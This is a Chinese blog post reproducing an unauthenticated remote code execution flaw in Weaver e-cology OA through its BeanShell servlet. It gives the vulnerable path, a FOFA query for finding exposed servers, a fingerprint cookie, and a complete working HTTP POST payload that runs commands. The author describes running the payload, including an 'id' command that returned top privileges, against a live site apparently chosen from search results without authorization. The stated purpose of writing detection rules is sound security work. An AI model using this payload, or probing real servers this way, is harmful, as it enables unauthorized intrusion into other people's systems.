 ```yaml
---
layout:     post
title:      泛微ecology OA系统远程代码执行漏洞
subtitle:   泛微ecology OA
date:       2019-09-23
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：泛微e-cology OA系统远程代码执行漏洞
* CVE编号：N/A
* 发布时间：2019-09-19
* 漏洞说明：泛微 e-cology OA 系统自带 BeanShell 组件且开放未授权访问，攻击者调用 BeanShell 组件接口可直接在目标服务器上执行任意命令。
* 影响范围：泛微 e-cology<=9.0
* 修复建议：1、关闭 BeanShell 接口； 2、安装厂商发布的安全补丁

## 0x01 复现漏洞
从漏洞介绍中，我们知道这是一个未授权访问导致的远程代码执行漏洞，以下接口就是未授权范围的一个接口：
```
/weaver/bsh.servlet.BshServlet
```

由于本地环境环境不好搭建，我先从FOFA网络空间搜索引擎中先搜一个站点获取到泛微e-cology的指纹和尝试输出打印命令：
FOFA搜索语法如下：
```
app="泛微-协同办公OA"&&app="泛微协同商务系统"
```
我选一个存在漏洞的网址进行下无损测试
在域名后面拼接上漏洞路径后访问如下，包含关键词"BeanShell Test Servlet"，这在写策略的时候是需要的，需要记录一下：
![图片](../../../../img/ecologyoa_rce_1.png)

先不着急执行命令，我们来找一下Web指纹，我发现Set-Cookie中含有ecology关键词，那么就以这个来作为泛微e-cology OA系统的指纹规则：
```
Set-Cookie: ecology_JSessionId
```

然后我们在执行一个打印输出命令并对HTTP请求进行抓取，并对HTTP包的一些字段进行删除，最简HTTP请求包如下所示：
```
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: $HOST_PORT$
Content-Length: 50
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36

bsh.script=exec%28%22echo+security%22%29%3B%0D%0A%0D%0A%0D%0A%0D%0A
```

最后我还是没忍住，输入了一个id命令查询了一下用户ID，如下图所示，你没有看错就是最高权限！
吓得我急忙关闭。
![图片](../../../../img/ecologyoa_rce_2.png)
## 0x02 总结
今天遇到的最多的就是问题，主要是扫描器还没很完善，在正则表达式的匹配上面有问题，花了很多时间，一直在搞正则，没想到是程序设计的问题。
保存漏洞策略的时候也遇到了保存失败的问题，忘记了Windows下不能以有一些特殊字符来命令文件，比如大于号小于号问好等等。
